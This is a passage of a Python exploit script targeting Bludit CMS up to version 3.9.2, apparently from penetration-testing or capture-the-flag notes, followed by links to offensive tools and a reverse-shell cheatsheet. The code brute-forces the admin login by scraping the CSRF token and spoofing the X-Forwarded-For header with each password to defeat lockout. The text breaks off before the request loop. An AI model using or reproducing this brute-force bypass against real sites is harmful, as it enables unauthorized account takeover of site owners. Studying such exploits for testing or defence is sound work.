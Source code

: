 ```python
Example Usage:
- ./exploit.py -l http://127.0.0.1/admin/login.php -u user.txt -p pass.txt 
'''

import requests
import sys
import re
import argparse, textwrap
from pwn import *

#Expected Arguments
parser = argparse.ArgumentParser(description="Bludit <= 3.9.2 Auth Bruteforce Mitigation Bypass", formatter_class=argparse.RawTextHelpFormatter, 
epilog=textwrap.dedent(''' 
Exploit Usage : 
./exploit.py -l http://127.0.0.1/admin/login.php -u user.txt -p pass.txt
./exploit.py -l http://127.0.0.1/admin/login.php -u /Directory/user.txt -p /Directory/pass.txt'''))                     

parser.add_argument("-l","--url", help="Path to Bludit (Example: http://127.0.0.1/admin/login.php)") 
parser.add_argument("-u","--userlist", help="Username Dictionary") 
parser.add_argument("-p","--passlist", help="Password Dictionary")    
args = parser.parse_args()

if len(sys.argv) < 2:
    print (f"Exploit Usage: ./exploit.py -h [help] -l [url] -u [user.txt] -p [pass.txt]")          
    sys.exit(1)  

# Variable
LoginPage = args.url
Username_list = args.userlist
Password_list = args.passlist

log.info('Bludit Auth BF Mitigation Bypass Script by ColdFusionX \n ')

def login(Username,Password):
    session = requests.session()          
    r = session.get(LoginPage)
 
# Progress Check    
    process = log.progress('Brute Force')

#Getting CSRF token value
    CSRF = re.search(r'input type="hidden" id="jstokenCSRF" name="tokenCSRF" value="(.*?)"', r.text)
    CSRF = CSRF.group(1)

#Specifying Headers Value
    headerscontent = {
    'User-Agent' : 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36',
    'Referer' : f"{LoginPage}",
    'X-Forwarded-For' : f"{Password}"
    }

#POST REQ data
    postreqcontent = {
    'tokenCSRF' : f"{CSRF}",
    'username' : f"{Username}",
    'password' : f"{Password}",
    'save' : ""
    }
```

[htb-list]: https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=1839402159
[autorecon]: https://github.com/Tib3rius/AutoRecon
[bad-keys]: https://github.com/rapid7/ssh-badkeys
[linpeas]: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
[tty-shell]: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#spawn-tty-shell